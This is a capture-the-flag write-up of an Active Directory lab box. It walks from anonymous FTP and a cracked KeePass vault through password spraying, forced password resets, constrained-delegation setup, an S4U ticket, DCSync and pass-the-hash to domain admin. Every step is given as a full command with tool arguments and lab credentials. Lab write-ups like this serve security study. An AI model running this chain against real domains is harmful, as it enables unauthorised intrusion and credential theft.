<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - Anonymous FTP drops a few .txt files and a KeePass vault. A training doc hints at a `SeasonYear!` password pattern, so I build a wordlist and crack the vault to `Fall2024!`. The stored creds get me `sqlguest` on MSSQL, and a password spray (with `Fall2024!` added in) lands `Marie.Curie`. She's in the Helpdesk group, which can force-change passwords, so I reset `helen.frost` and get a WinRM shell (user.txt). helen is in the IT group with GenericAll over the `FS01` machine, and she holds `SeEnableDelegationPrivilege`, which is exactly what lets me configure FS01 for constrained delegation with protocol transition. From there I S4U a ticket to the DC, DCSync the Administrator, and pass-the-hash for root.

## Recon

Started with the typical full nmap scan on the target.

```bash
nmap -sV -sC -p- -oN nmap/redelegate 10.129.234.50
```




After so much time I got the full scan (maybe next time I don't do a full one). Inspecting it, I saw `anonymous` access is available on FTP, and from the LDAP and Kerberos this is clearly a domain controller, so this is probably a full AD machine. I added the domain to my `/etc/hosts` (`redelegate.vl`) and went to the FTP, where the scan already showed some `.txt` files lying around. Let's grab them and inspect. First, `CyberAudit.txt`.



Looks like some audit was done and there are interesting findings, might help later. Some remediation steps are marked as already done but honestly I'm not trusting that at all, especially when it involves warning users to change their password. Then `TrainingAgenda.txt`.



It's an agenda to teach users best practices, and there's this theme: `Weak Passwords - Why "SeasonYear!"`. That's oddly specific, so let's keep it in mind.

## Cracking the KeePass vault

The other file is a `.kdbx`, a KeePass vault. KeePass is an offline password manager that stores logins encrypted behind a single master password, so if I can crack that master password I get everything inside. And that `SeasonYear!` hint was too specific to be a coincidence, so I built a wordlist around that pattern.

```bash
printf '%s\n' {Autumn,Fall,Spring,Summer,Winter,October}{2010..2026}{'!','!!','@','#','$','?','*','.','1','123',''} \
  | sed 'p;s/.*/\L&/p;s/.*/\U&/' | sort -u > big_wl.txt
```

Then turned the KeePass vault into a crackable hash with keepass2john and threw john at it.

```bash
keepass2john Shared.kdbx > hashes.keepass
john --format=keepass --wordlist=big_wl.txt hashes.keepass
```



And got the password, `Fall2024!`.

Quick note, I was actually stuck here for a bit, I kept failing to crack it. Turns out when you download files from an FTP server you need to enable `binary` mode first, because FTP defaults to ASCII and that mangles line endings between systems, which corrupts a binary file like a .kdbx. Binary mode copies the bytes exactly as they are. So keep that in mind when pulling files off FTP, either `binary` on the FTP session or just grab it with `wget`.

So I opened the KeePass vault with `Fall2024!` and I was in.



Then I dumped all the entries to a text file.



There were a bunch of secrets in there, some for the IT department, others for helpdesk and finance. Now I need the next step. One of them was a `sqlguest` account, and since MSSQL was open let's give it a go and validate it with nxc.

```bash
nxc mssql 10.129.234.50 -u sqlguest -p 'zDPBpaF4FywlqIv11vii' --local-auth
```



Valid. I logged into the database and poked around, tried a few techniques, even stole the `sql_svc` NetNTLMv2 hash, but couldn't crack it, dead end. So, new plan: I have a handful of passwords from the KeePass, maybe I can enumerate the domain users and spray those passwords across them. First I used the MSSQL guest access to RID-brute the users.

```bash
nxc mssql 10.129.234.50 -u sqlguest -p 'zDPBpaF4FywlqIv11vii' --local-auth --rid-brute 5000
```



Saved all the users to one file and all the passwords to another. At first I didn't get a hit, but then I added `Fall2024!` to the passwords file as well, and bingo.

```bash
nxc smb 10.129.234.50 -u users.txt -p passwords.txt
```


Found `Marie.Curie:Fall2024!`. Let's see what she can do, so off to BloodHound.

## Helpdesk -> force change password



Marie.Curie is in the Helpdesk group, and that group can ForceChangePassword on a bunch of users. So now the question is which user to actually target. The one that matters is `helen.frost`: she's in the IT group and she's the one who can reach the `FS01` computer, so that's the path. I'll use nxc's change-password module to reset her password.

```bash
nxc smb 10.129.234.50 -u marie.curie -p "Fall2024!" -M change-password -o USER=helen.frost NEWPASS=password123
```



Let's confirm it.



Confirmed, and helen has WinRM access (she's in Remote Management Users), so this is the right path. Logging in with evil-winrm I grabbed the user flag.



`a7efbec4d26775b2f39fab9742bb62d3`

## Privilege escalation (constrained delegation)

With the user flag in hand it's time to work for DA. I started by checking my privileges on the box.



And there's `SeEnableDelegationPrivilege`. This one is spicy. It lets you configure accounts for delegation, which normally only the DC can do. In other words, I can mark a computer as trusted to delegate and tell it which service it's allowed to delegate to. The plan: if I set up delegation on a machine I control, I can have it request tickets on behalf of other users, including a privileged one, against the DC.

For that I need full control over a computer account, and from BloodHound helen (through the IT group) has GenericAll over FS01.



So let's take over FS01 by changing its machine account password.

```bash
nxc smb 10.129.234.50 -u helen.frost -p password123 -M change-password -o USER=FS01$ NEWPASS=password123
```



Now I own FS01$. At the moment it's not configured for delegation, so I use my `SeEnableDelegationPrivilege` to set it up: first flip the `TRUSTED_TO_AUTH_FOR_DELEGATION` flag (constrained delegation with protocol transition), then set `msDS-AllowedToDelegateTo` to the DC's `cifs` service.

```bash
bloodyAD -d redelegate.vl -u helen.frost -p 'password123' --host "dc.redelegate.vl" add uac FS01$ -f TRUSTED_TO_AUTH_FOR_DELEGATION

bloodyAD -d redelegate.vl -u helen.frost -p 'password123' --host "dc.redelegate.vl" set object FS01$ msDS-AllowedToDelegateTo -v 'cifs/dc.redelegate.vl'
```

With that in place, FS01 can request a `cifs/dc.redelegate.vl` ticket on behalf of any user (that's the protocol transition part), so I use S4U to impersonate `dc` and get a ticket to the DC's SMB.

```bash
impacket-getST redelegate.vl/fs01\$:'password123' -spn cifs/dc.redelegate.vl -impersonate dc
```



With that ticket I can DCSync and dump the Administrator hashes.

```bash
export KRB5CCNAME=dc.ccache
impacket-secretsdump -k dc.redelegate.vl -just-dc-user Administrator
```



And finally pass-the-hash with evil-winrm to log in as Administrator and grab root.

```bash
evil-winrm -i 10.129.234.50 -u administrator -H ec17f7a2a4d96e177bfd101b94ffc0a7
```



`dc3b40ceffbf2e790f4faa11a5b3813d`

## Kill chain summary

| Phase | Vector | Result |
|---|---|---|
| Recon | anonymous FTP | .txt hints + Shared.kdbx (KeePass) |
| Foothold | SeasonYear! wordlist -> crack KeePass | vault creds + `Fall2024!` |
| Lateral | password spray (creds + Fall2024!) | `Marie.Curie:Fall2024!` |
| Lateral | Helpdesk ForceChangePassword | reset `helen.frost` -> WinRM (user.txt) |
| PrivEsc | helen (IT) GenericAll over FS01 | own FS01$ machine account |
| Root | SeEnableDelegation -> constrained delegation + S4U -> DCSync | Administrator (root.txt) |

## Final thoughts

Really enjoyed this one, the box name tells you the whole story once you get to the end. The front half is classic AD looting (FTP leak, KeePass, a spray), but the privesc is where it gets fun: `SeEnableDelegationPrivilege` is a rare one to see, and it's the exact piece that lets you bolt constrained delegation onto a machine you own and then S4U your way to the DC. Also a nice reminder about FTP binary mode, that one cost me more time than I'd like to admit. Solid Hard.
